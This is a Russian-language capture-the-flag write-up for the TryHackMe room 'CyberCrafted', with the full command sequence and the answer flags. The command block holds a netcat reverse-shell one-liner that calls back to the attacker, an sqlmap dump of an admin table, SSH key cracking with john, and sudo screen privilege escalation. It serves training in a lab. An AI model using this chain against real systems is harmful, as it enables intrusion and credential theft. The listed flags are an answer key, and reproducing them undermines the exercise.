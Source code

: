 [>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)

# Комната [CyberCrafted](https://tryhackme.com/r/room/cybercrafted) 

Всего 3 задания:
## Задание 1
Подключитесь к сети TryHackMe и разверните машину. Если вы не знаете, как подключиться к VPN, пожалуйста, заполните  
комнату OpenVPN  или используйте AttackBox, нажав кнопку Start AttackBox.

Обратите внимание, что загрузка этой машины может занять пару минут. Я бы рекомендовал дать ей не менее пяти минут.

### Ответьте на вопросы ниже
Готово.. Приготовьтесь...
```commandline
Go
```

## Задание 2
ы нашли IP-адрес сервера Minecraft, находящегося в разработке.  Можете ли вы получить root- доступ?

### Ответьте на вопросы ниже
Сколько портов открыто?
```commandline
nmap -T5  <IP>
dirsearch  -u <IP>
echo ‘<IP>    cybercrafted.thm’  >> /etc/hosts
dirsearch -u http://admin.cybercrafted.thm/
dirsearch -u http://store.cybercrafted.thm/
sqlmap -r req.req --dbms=mysql -D webapp -T admin –dump
id
rm f;mkfifo f;cat f|/bin/sh -i 2>&1|nc <IP> 4444 > f
scp id_rsa root@<IP>:/root/trytohackme/cybercraft/
ssh2john id_rsa > id_rsa.hash
john id_rsa.hash -wordlist=/usr/share/wordlists/rockyou.txt
su cybercrafted
sudo -l
sudo /usr/bin/screen -r cybercrafted
```
```commandline
3
```
Какая служба работает на самом высоком порту?
```commandline

```
```commandline
minecraft
```
Есть ли поддомены? (В алфавитном порядке)
```commandline
admin store www
```
На какой странице вы нашли уязвимость?
```commandline
search.php
```
Какое имя пользователя у администратора? (С учетом регистра)
```commandline
xXUltimateCreeperXx
```
Что такое веб-флаг?
```commandline
THM{bbe315906038c3a62d9b195001f75008}
```
Можете ли вы получить флаг сервера Minecraft?
```commandline
THM{ba93767ae3db9f5b8399680040a0c99e}
```
Как называется этот сомнительный плагин?
```commandline
LoginSystem
```
Какой флаг у пользователя?
```commandline
THM{b4aa20aaf08f174473ab0325b24a45ca}
```
Заверши работу и дай мне корневой флаг!
```commandline
THM{8bb1eda065ceefb5795a245568350a70}
```

## Задание 3
И вот вам! Это было « Cybercrafted » от  madrinch .

Подписывайтесь на меня в  Twitter !

### Ответьте на вопросы ниже
Удачи в ваших будущих приключениях!
```commandline
Ответ не нужен
```

[>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)
